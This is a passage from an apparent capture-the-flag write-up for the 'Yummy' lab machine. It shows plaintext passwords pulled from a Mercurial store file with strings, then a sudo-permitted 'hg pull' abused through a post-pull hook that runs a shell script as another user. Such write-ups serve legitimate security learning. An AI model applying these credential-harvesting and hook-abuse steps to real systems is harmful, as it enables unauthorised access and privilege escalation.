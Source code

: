 We again run a netcat listener to catch the shell (it might take a few tries). 

### www-data to qa
We can find a password for the `qa` user in the `/var/www/qa_testing/.hg/store/data/app.py.i` file. 

```console
www-data@yummy:~$ cd /var/www/app-qatesting/.hg/store/data
www-data@yummy:~/app-qatesting/.hg/store/data$ strings app.py.i
'user': 'chef',
'password': '3wDo7gSRZIwIHRxZ!',

'user': 'qa',
'password': 'jPAd!XQCtn8Oc@2B',
```

We can now SSH as `qa`.

```console
$ ssh qa@yummy.htb
qa@yummy:~$ cat user.txt
```

## Root
### QA to Dev
The qa user can run a command as the dev user.

```console
qa@yummy:~$ sudo -l
User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

Looking online this command is used by Mercurial SCM. In our home folder we have a `.hgrc` file that contains some configuration options. One option of Mercurial is to create hooks that run before/after certain actions. From the [Mercurial Docs](https://repo.mercurial-scm.org/hg/help/hgrc) there is also a hook called `post-<command>` that runs after successful invocations of the associated command.

```console
qa@yummy:~$ nano .hgrc
[hooks]
post-pull = /tmp/shell.sh
```

Again we download our shell and modify the `.hgrc` file to run our shell after a pull request. Next we run a netcat listener and perform the pull request as the `dev` user.

```console
qa@yummy:~/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
abort: Permission denied: '/home/qa/.hg'
```

When running the command, we get a permission denied error so we try another way. From the same documentation, you can also specify the configuration file inside the `.hg` folder per repository. We can create this file in the `/tmp` directory and then try to run our exploit again.
